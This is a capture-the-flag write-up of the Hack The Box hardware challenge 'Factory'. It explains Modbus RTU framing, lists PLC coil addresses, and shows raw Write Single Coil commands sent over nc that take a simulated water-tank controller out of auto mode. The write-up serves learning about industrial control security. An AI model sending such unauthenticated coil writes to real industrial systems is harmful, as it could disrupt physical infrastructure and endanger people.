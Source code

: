 ```yaml
---
layout: newpost
title: "Writeup: HTB Challenge Factory"
date: 2025-01-26
categories: [tech]
tags: [htb, ctf, hardware]
---
```


- Challenge: [Factory](https://app.hackthebox.com/challenges/factory)
- Category: Hardware
- Solve date: 2025-01-26

---
### Description

> Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.

### Provided files

- `PLC_Ladder_Logic.pdf`
- `interface_setup.png`

---
# modbus RTU frame

This is the way a [modbus](https://en.wikipedia.org/wiki/Modbus) frame looks like:

| Slave address | Function Code | Data          | CRC                                         |
| ------------- | ------------- | ------------- | ------------------------------------------- |
| 1 byte        | 1 byte        | 0 – 252 bytes | 2 bytes: 1 CRC low byte and 1 CRC high byte |

## Coil addresses

| Addr | Hex    | Coil                |
| ---- | ------ | ------------------- |
| 12   | 0xc    | in_valve            |
| 21   | 0x15   | out_valve           |
| 33   | 0x21   | start               |
| 9947 | 0x26db | manual_mode_control |
| 5    | 0x05   | cutoff              |
| 26   | 0x1a   | cutoff_in           |
| 52   | 0x34   | force_start_out     |
| 1336 | 0x538  | force_start_in      |

## Connecting to remote host

```sh
❯ nc 83.136.250.116 54224
Water Storage Facility Interface
1. Get status of system
2. Send modbus command
3. Exit
Select: 1
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
1. Get status of system
2. Send modbus command
3. Exit
Select: 2
Modbus command:
```

Current settings:
```json
{"auto_mode": 1, "manual_mode": 0, "stop_out": 0, "stop_in": 0, "low_sensor": 0, "high_sesnor": 0, "in_valve": 1, "out_valve": 0, "flag": "HTB{}"}
```

---

# What do we know?

We know that:
- the slave address is 0x52 (82 in decimal)
- "laptop-2" take care of the CRC.
- we need to configure "coils" with a modbus command
- we want the water to flow out since the sensor are messed up, so we *probably* want to use:
	- manual_mode_control -> manual_mode = 1
	- cutoff_in -> stop_in = 1
	- out_valve -> out_valve = 1
	- force_start_out = 1

## Compile modbus command

#### Function
- Write Single Coil = 5 -> `0x5`
- 
#### Data
Address + on/off
- `FF 00` = ON (1)
- `00 00` = OFF (0)

### Command

| Set these to ON     | Slave address | Function Code | Data        |
| ------------------- | ------------- | ------------- | ----------- |
| manual_mode_control | 52            | 05            | 26db + FF00 |
| force_start_out     | 52            | 05            | 0034 + FF00 |
| out_valve           | 52            | 05            | 0015 + FF00 |
| cutoff_in           | 52            | 05            | 001a + FF00 |
We will then send these commands:  `52050015FF00`, `520526dbFF00`, `52050034FF00`, `5205001aFF00`

This leave us the these settings (and the flag!):
```json
{"auto_mode": 0, "manual_mode": 1, "stop_out": 0, "stop_in": 1, "low_sensor": 0, "high_sesnor": 0, "in_valve": 0, "out_valve": 1, "flag": "HTB{14dd32_..._5y573m5}"}
```
